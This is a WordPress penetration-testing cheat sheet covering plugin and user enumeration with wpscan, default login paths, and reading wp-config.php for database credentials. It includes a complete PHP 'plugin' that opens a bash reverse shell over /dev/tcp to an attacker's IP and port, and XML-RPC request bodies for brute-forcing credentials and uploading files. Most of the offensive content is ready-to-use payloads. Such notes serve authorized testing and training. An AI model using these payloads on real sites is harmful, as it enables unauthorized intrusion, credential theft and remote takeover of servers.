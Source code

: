 # Wordpress

## Plugin enumeration

Enumeration can be executed with the tool wpscan downloadable [here](https://github.com/wpscanteam/wpscan)

```http
wpscan --update
wpscan --url <host> --enumerate u,p            #list users and installed lugins
wpscan --url <host> --enumerate ap,at,cb,dbe   #bruteforce installed plugins, better results but really 
```

## Standard pages and folders

#### License files

* `/license.txt`
* `/readme.html`

#### Login pages

* `/wp-admin/login.php`
* `/wp-admin/wp-login.php`
* `/login.php`
* `/wp-login.php`

#### Storage folders

* `wp-content/uploads/` resources folder
* `wp-content/themes/` themes folder
* `wp-includes/` plugins, scripts and widgets

## Reverse shell upload

These attacks require access to the administrative console

### Template editor

It is possible to use the template editor to modify a php page. The modified files are usually located under `/wp-content/themes/<theme>/<page>.php`

### Plugin upload functionality

It is possible to upload and execute a reverse shell payload by abusing the install plugin functionality

Create a .php file as follows then zip it and upload the archive. Once uploaded press the "Activate" button

```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
?>
```

## Pivoting

This file contains plain-text username and password for database login. Sometimes these credentials can also be used to authenticate as another user on target machine.

```http
cat <wp folder>/wp-config.php    #local
wget <url>/wp-config.php         #remote
```

## XML-RPC

### Check if active

Send the following request to /xmlrpc.php

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

### Credentials bruteforce

You can use `wp.getUsersBlogs`, `wp.getCategories` or `metaWeblog.getUsersBlogs` as value for the `methodName` field

```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>[user]</value></param>
<param><value>[pass]</value></param>
</params>
</methodCall>
```

### File upload

Requires valide credentials

```
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
	<methodName>wp.uploadFile</methodName>
	<params>
		<param><value><string>1</string></value></param>
		<param><value><string>[user]</string></value></param>
		<param><value><string>[pass]</string></value></param>
		<param>
			<value>
				<struct>
					<member>
						<name>name</name>
						<value><string>[filename]</string></value>
					</member>
					<member>
						<name>type</name>
						<value><string>[mime type]</string></value>
					</member>
					<member>
						<name>bits</name>
						<value><base64><![CDATA[base64 blob here]]></base64></value>
					</member>
				</struct>
			</value>
		</param>
	</params>
</methodCall>
```
